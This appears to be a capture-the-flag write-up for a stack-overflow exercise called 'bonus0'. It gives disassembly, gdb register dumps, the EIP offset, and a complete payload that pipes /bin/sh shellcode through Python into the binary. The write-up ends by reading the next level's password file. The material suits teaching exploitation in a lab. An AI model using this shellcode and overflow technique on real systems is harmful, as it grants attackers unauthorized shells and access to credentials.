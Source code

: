 ## bonus0
In `bonus0` we will find three functions`p() pp() main()`<br>
The `main()` will set the stack to `sub    esp,0x40` and will create a *__buffer[42]__* `( eax,[esp+0x16])` and after that `main()` will call a function called `pp(buffer)` and will pass this *buffer[42]* as parameter.<br>
The function `pp()` will create two buffers also that we will call *str1 & str2*
```
0x0804852e <+16>:	lea    eax,[ebp-0x30]
0x08048541 <+35>:	lea    eax,[ebp-0x1c]
```
Pay special attention to the gap between those two __addresses__

|0x30 - 0x1c = 0x14|
|-|
|Those `0x14 (20) bytes` is where the exploit will be made|

Following there will be two call to a funtion called `p()`, this function takes in two parameters `p(param1, param2)` the first parameter will will be the *str1* in the first call and *str2* on the second call, and the second parameter in both calls will be the string <br> `" - "`

|p(str1, " - ")|
|-|
|p(str2, " - ")|

The function `p()` will call `puts()` on her second argument and define a buffer of 4096 <br> ` 0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000` <br>
again pay attention here because in this buffer we will have to store our *shellcode*


After some tests we find our *offset* as a value of `9`
```
-
AAAAAAAAAAAAAAAAAAAA
-
BBBBBBBBBBCCCCCCCCCC
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBCCCCCCCCCC�� BBBBBBBBBBCCCCCCCCCC��  <-- here with 10 B we still have one 42 at the address
0x43434342 in ?? () <-- the last 42 it's the 10th B

-
AAAAAAAAAAAAAAAAAAAA
-
BBBBBBBBBCCCCCCCCCCC
AAAAAAAAAAAAAAAAAAAABBBBBBBBBCCCCCCCCCCC�� BBBBBBBBBCCCCCCCCCCC�� <-- here with 9 B the address of the $eip is set to 0x43434343 that is the C
0x43434343 in ?? () <-- offset equal 9

(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff700	0xbffff700
ebp            0x42424242	0x42424242
esi            0x0	0
edi            0x0	0
eip            0x43434343	0x43434343    <--- the eip is overwrote, here we need to put the address of the buffer[0x100] with our shellcode
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

Here is the payload
```
(python -c "print('A' * 42 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')"; python -c "print('B' * 9 + '\x80\xe6\xff\xbf' + 'C' * 7)"; cat) | ./bonus0

 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBB����CCCCCCC�� BBBBBBBBB����CCCCCCC��
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
